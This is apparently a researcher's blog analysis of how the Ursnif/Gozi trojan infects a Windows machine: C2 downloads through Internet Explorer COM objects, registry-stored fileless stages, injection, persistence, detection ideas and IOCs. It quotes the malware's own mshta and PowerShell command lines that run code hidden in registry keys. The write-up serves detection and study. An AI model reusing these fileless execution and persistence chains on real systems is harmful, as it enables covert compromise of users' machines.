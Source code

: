 # Ursnif: behavioural analysis of the infection process

[@elioxyz](https://twitter.com/elioxyz)

[Home](https://splashdot.github.io)

## Intro

I succesfully infected a VM and analysed the process with NetworkMonitor, Wireshark, Process Monitor, Process Hacker and manually. My goal is to be able to collect as many details as possible from a compromised machine, and to reverse engineer the infection process.

The infection is very silent but contains a number of operations that make it very interesting: Ursnif does not write itself to disk, but rather distributes itself in "chunks" over the registry: this is why its persistence is called "fileless". The process by which it achives such task, that I am going to detail later, is sophisticated and aims at avoiding detection as much as possible, with a considerable variety of means.

Ursnif uses Internet Explorer COM objects to connect to the C2s, and I will show a characteristic that is quite unique to these types of connections. It also uses `powershell.exe` and `mshta.exe` to execute the contents of the registry keys.

Overall it was very interesting working on this sample because of how many intricacies this malware has, starting from one of its macros I analysed [here](https://splashdot.github.io/ursnif).

I divide the infection into two conceptual stages: the first downloads the malware from the Internet with COM objects and creates the registry keys, while the second executes the registry keys and inject the payload into memory (`loader.dll` -> `client.dll`).

## The sample

The sample was retrieved from [Malware Bazaar](https://bazaar.abuse.ch/sample/af07f9aa2ac4a583413860f67106192848a6cbf183c2e10ab2066ef300e1667e/):

*SHA256*: af07f9aa2ac4a583413860f67106192848a6cbf183c2e10ab2066ef300e1667e<br />
*MD5*: b37dfc2b132c7991b866d8dc92e80bcb<br />
*File type*: DLL<br />
*MIME type*: application/x-dosexec<br />
*VT score*: 34/70 (at the time of writing)<br />

## First stage of the infection: preparation

I execute the sample with `regsvr32`, and I can see that it immediately starts using a lot of CPU. It will remain in that state for a while and then exit.

![alt text](https://raw.githubusercontent.com/splashdot/splashdot.github.io/master/ursnif2/images/process.PNG)

After a shortwhile, I see many instances of `iexplorer.exe` popping up, which are of course not the original and trustworthy process, but rather a clever way the malware authors have found to avoid detection: they are in fact COM objects implementing InternetExplorer. They are used at the beginning of the infection because they will spawn a process that does not seem suspicious and that is known to have outbound network connections, and also because there is not an entry ofr Internet Explorer in the application section of the task manager, that is, only the processes are there.

From the following screenshot taken from a live NetworkMonitor capture, we can clearly see the rogue `iexplorer.exe` processes (red) communicating with the C2 (green) and requesting the typical Ursnif URI (orange):

![alt text](https://raw.githubusercontent.com/splashdot/splashdot.github.io/master/ursnif2/images/iexplorer.PNG)

The processes are reponsible for connecting to the C2 and downloading the final payload. Following are all the network requests that are downloading the malware.

![alt text](https://raw.githubusercontent.com/splashdot/splashdot.github.io/master/ursnif2/images/wireshark.PNG)

There is something quite peculiar, that immediately caught my attention: all the requests are seemingly normal, except for the one for favicon.ico. Can you spot why?

![alt text](https://raw.githubusercontent.com/splashdot/splashdot.github.io/master/ursnif2/images/favicon.PNG)

It has the same weird header I briefly discussed in my [LNK](https://splashdot.github.io/LNK) article, that is "UA-CPU: AMD64". And, sure enough, this behaviour is connected to the fact that the authors decided to use the InternetExplorer COM object: I was able to reproduce it by navigating to HTTP sites that have an icon. In the following screenshot I create an internetexplorer COM object (on the Powershell window to the right) and navigate to a redacted domain (red), that requests the icon (black) and uses the header (green):

![alt text](https://raw.githubusercontent.com/splashdot/splashdot.github.io/master/ursnif2/images/header.PNG)

It is relevant to note that the malware will also change another registry key associated with Internet Explorer that will make it the default browser.

So, to sum up the process up to this point I will refer to the following system capture performed with procmon, that shows the initial execution with `regsvr32` via powershell and the creation of the internetexplorer COM objects:

![alt text](https://raw.githubusercontent.com/splashdot/splashdot.github.io/master/ursnif2/images/initial.PNG)

Please, note tha last process (`explorer.exe`) that spawns an instance of mshta.exe: ursnif has injected into it and begins what I call the second stage.

## Second stage of the infection: final steps

At this point we are able to delve into the fileless aspects of Gozi/Ursnif. The malware stores its files into a semi-randomly named key in the registry located in `HKCU\Software\AppDataLow\Software\Microsoft`. Here is their creation (only the first stage):

![alt text](https://raw.githubusercontent.com/splashdot/splashdot.github.io/master/ursnif2/images/regi_creation.PNG)

And here are their contents:

![alt text](https://raw.githubusercontent.com/splashdot/splashdot.github.io/master/ursnif2/images/registry.PNG)

The ones created in the first stage are actually everything needed for the malware to infect a host, the others are set at a later time. Immediately after writing these keys, the malware will execute the contents of `appvadata`:

*appvdata*:
```code
mshta "about:<hta:application><script>resizeTo(1,1);eval(new ActiveXObject('WScript.Shell').regread('HKCU\\\Software\\AppDataLow\\Software\\Microsoft\\3863EAC4-374D-2AC9-81EC-5BFE45E0BF12\\\Autoprov'));if(!window.flag)close()</script>"
```

Which is an HTML application that contains a JS script which executes the contents of the key `Autoprov` through `eval()`.

*Autoprov*:
```code
Nr1fha=new ActiveXObject('WScript.Shell');Nr1fha.Run('powershell iex ([System.Text.Encoding]::ASCII.GetString(( gp "HKCU:\Software\\AppDataLow\\Software\\Microsoft\\3863EAC4-374D-2AC9-81EC-5BFE45E0BF12").apispSvc))',0,0);
```

`Autoprov` will execute the contents of `apispSvc` through an `ActiveXObject` that calls `PowerShell`. Following are the deobfuscated contents of the key `apispSvc`:

![alt text](https://raw.githubusercontent.com/splashdot/splashdot.github.io/master/ursnif2/images/apispsvc.PNG)

Now, this last powershell script is very interesting, since it will perform process injection with bytes: it is lightly obfuscated and contains:

- a function that decodes base64 (`ktavhvyqrgv`) 
- two base64 encoded strings that are being executed with `iex`
- a long array of bytes (`btweqyqexdi`, which is the `loader.dll` employed by Ursnif).

The first base64 encoded line decodes to this:

![alt text](https://raw.githubusercontent.com/splashdot/splashdot.github.io/master/ursnif2/images/firstb64.PNG)

The above code creates two objects (`$klam` and `$tnc`) that allow access to native Windows APIs through Add-Type and allows to call them directly as class members. To unserstand this, here is the second base64 encoded string:

![alt text](https://raw.githubusercontent.com/splashdot/splashdot.github.io/master/ursnif2/images/secondb64.PNG)

This code is responsible for injecting the contents of the bytes array `$btweqyqexdi` into the process running, leveraging QueueUserAPC. Windows APIs are called by referencing the objects created before: as en example, `VirtualAllocEx` will be invoked simply by calling `$klaam::VirtualAllocEx`.

Now that `loader.dll` is into memory, it will decode the .bss section where it stores all the strings: this ultimates the infection process as the next step is the final DLL (either Client32 or client64 depending on the system architecture).

## Persistence

Persistence is achieved through a value in HKCU\Software\Microsoft\Windows\CurrentVersion\Run:

![alt text](https://raw.githubusercontent.com/splashdot/splashdot.github.io/master/ursnif2/images/persistence.PNG)

The two files ('appvdata.lnk' and 'Autoprov.ps1') are respectively a link to `powershell.exe` and:

```code
iex ([System.Text.Encoding]::ASCII.GetString(( gp "HKCU:\Software\AppDataLow\Software\Microsoft\3863EAC4-374D-2AC9-81EC-5BFE45E0BF12").apispSvc))
```

The key `apispSvc` is the code that does bytes-injection with `loader.dll`, mentioned in the previous paragraph.

Here are the two files in the folder:

![alt text](https://raw.githubusercontent.com/splashdot/splashdot.github.io/master/ursnif2/images/files.PNG)

## Considerations

The detection of this malware could be done with IOCs (such as domains or IPs), but the registry keys prove to be a better way to detect it with precision. Detection could be achieved by analysing the keys in \Run (which are used by many other malware variants), which would eventually point to the key in `HKCU\Software\AppDataLow\Software\Microsoft`, where all the malware resides.

Detection can also be achieved by continuous monitoring: a good indicator are the correlations between network connections and processes (sysmon event 3), given that the exfiltration would start from `explorer.exe` where the malware injects itself into. Ursnif also uses a tor module (please refer to the picture of the registry keys and look for `TorClient`), so Tor traffic could also be use to detect potential malicious activity.

## IOCs

*DLL*
SHA256: af07f9aa2ac4a583413860f67106192848a6cbf183c2e10ab2066ef300e1667e<br />
MD5: b37dfc2b132c7991b866d8dc92e80bcb<br />

*C2*
api3[.]lepini[.]at<br />
c56[.]lepini[.]at<br />
api10[.]laptok[.]at<br />
47[.]241[.]19[.]44<br />